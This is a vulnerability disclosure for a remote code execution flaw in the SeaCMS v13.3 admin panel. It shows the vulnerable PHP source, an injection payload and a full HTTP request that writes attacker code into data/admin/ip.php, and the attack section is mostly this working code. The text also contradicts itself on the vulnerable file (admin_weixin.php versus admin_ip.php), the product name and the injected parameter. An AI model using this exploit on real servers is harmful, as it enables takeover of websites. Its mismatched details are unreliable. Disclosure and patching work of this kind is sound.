

## SeaCMS v13.3 Command Execution Vulnerability

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_weixin.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code in a way to splice bypass, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download


You can see the latest version v13.3


### Debugging Analysis and Vulnerability Exploitation  
The latest version of OceanCMS (v13.3) contains a command execution vulnerability.  
The vulnerable file is `0omeqd/admin_ip.php`, where PHP code concatenation is used, and is eventually written to the file `data/admin/ip.php`.  

```php
<?php 
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__)."/config.php");
CheckPurview();
if($action=="set")
{
	$v= $_POST['v'];
	$ip = $_POST['ip'];
	$open=fopen("../data/admin/ip.php","w" );
	$str='<?php  ';
	$str.='$v = "';
	$str.="$v";
	$str.='"; ';
	$str.='$ip = "';
	$str.="$ip";
	$str.='"; ';
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
	ShowMsg("Settings saved successfully!","admin_ip.php");
	exit;
}
```

The web page in the backend management contains the system's mail server settings. We click "Confirm" and intercept the request.

We pass the parameter `smtppsw` and concatenate PHP code. The PoC is:  
```r
127.0.0.1";phpinfo();$a="1
```
The complete HTTP request is as follows:

```
POST /0omeqd/admin_ip.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://localhost
Connection: close
Referer: http://localhost/0omeqd/admin_ip.php
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; EM_AUTHCOOKIE_H8GRtC1y0GuSnpOqCfrakVi13LpyC3uP=admin%7C1768664135%7C5c9e0424faa5c1136742a65bf62cfb85; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; PHPSESSID=sc3q3bgfniuuuj7s6et90vh3k8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

v=0&ip=+127.0.0.1%22%3Bphpinfo%28%29%3B%24a%3D%221
```
  
Upon debugging and setting breakpoints, we can see that the `phpinfo();` was successfully injected into the `str` variable.
  

After accessing the PHP path, the PHP code executes successfully.  
```r
data/admin/ip.php
```

